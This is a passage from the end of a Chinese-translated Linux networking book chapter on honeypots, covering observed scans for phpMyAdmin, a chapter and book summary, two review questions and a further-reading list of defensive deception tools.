这一个正在寻找`phpmyadmin`，这是一个常见的 MySQL 数据库的 web 管理门户:


图 14.18 - ISC 404 报告-攻击者寻找易受攻击的 MySQL 门户网站

注意，第一个示例没有 User-Agent 字符串，因此这很可能是一个自动扫描程序。 第二个例子确实有一个 User-Agent 字符串，但老实说，这可能只是伪装; 它可能也是一个自动扫描器寻找可以利用的公共漏洞。

现在您应该很好地了解了主要的蜜罐类型是什么，为什么在特定的情况下您可能更喜欢其中一种，以及如何构建每一种。

# 总结

这结束了我们关于“蜜罐”的讨论，即基于网络的欺骗和延迟攻击者的方法，以及在攻击进行时向防御者发送警报。 您应该对每一种主要类型的蜜罐有一个很好的了解，您可以在哪里最好地部署它们来实现您的目标作为一个防御者，如何建造蜜罐，以及如何保护它们。 我希望您能够很好地掌握这些方法的优点，并计划在您的网络中至少部署其中一些方法!

这也是这本书的最后一章，所以恭喜你坚持不懈! 我们讨论了在数据中心中以各种方式部署 Linux，重点讨论了这些方法如何帮助网络专业人员。 在每个部分中，我们都试图介绍如何保护每个服务，或者部署该服务的安全影响—通常两者都有。 我希望这本书已经说明了在您自己的网络中使用 Linux 用于某些或所有这些用途的优点，并且您将能够继续选择一个发行版并开始构建!

愉快的网络(当然是 Linux)!

# 问题

正如我们总结的，这里有一个问题列表，供你测试你对本章材料的知识。 你可以在附录的*评估*部分找到答案:

1.  `portspoof`的文档使用了一个示例，其中所有 65,535 个 TCP 端口都被发送到已安装的蜜罐。 为什么这是个坏主意?
2.  您可以将哪个端口组合伪装成 Windows**活动目录**(**AD**)域控制器?

# 进一步阅读

要了解更多有关这个主题的资料，请查阅以下资源:

*   Portspoof examples: [https://adhdproject.github.io/#!Tools/Annoyance/Portspoof.md](https://adhdproject.github.io/#!Tools/Annoyance/Portspoof.md)

    [https://www.blackhillsinfosec.com/how-to-use-portspoof-cyber-deception/](https://www.blackhillsinfosec.com/how-to-use-portspoof-cyber-deception/)

*   LaBrea 油布蜜罐:[https://labrea.sourceforge.io/labrea-info.html](https://labrea.sourceforge.io/labrea-info.html)
*   在 Microsoft Exchange 配置 Tarpit 蜜罐:[https://social.technet.microsoft.com/wiki/contents/articles/52447.exchange-2016-set-the-tarpit-levels-with-powershell.aspx](https://social.technet.microsoft.com/wiki/contents/articles/52447.exchange-2016-set-the-tarpit-levels-with-powershell.aspx)
*   [https://github.com/mayhemiclabs/weblabyrinth](https://github.com/mayhemiclabs/weblabyrinth)
*   Thinkst Canary 蜜罐:[https://canary.tools/](https://canary.tools/)
*   The Internet Storm Center's DShield Honeypot project: [https://isc.sans.edu/honeypot.html](https://isc.sans.edu/honeypot.html)

    [https://github.com/DShield-ISC/dshield](https://github.com/DShield-ISC/dshield)

*   Strand, J.， Asadoorian, P.， Donnelly, B.， Robish, E.， and Galbraith, B.(2017)。 *进攻对策:积极防御的艺术* CreateSpace 独立出版。**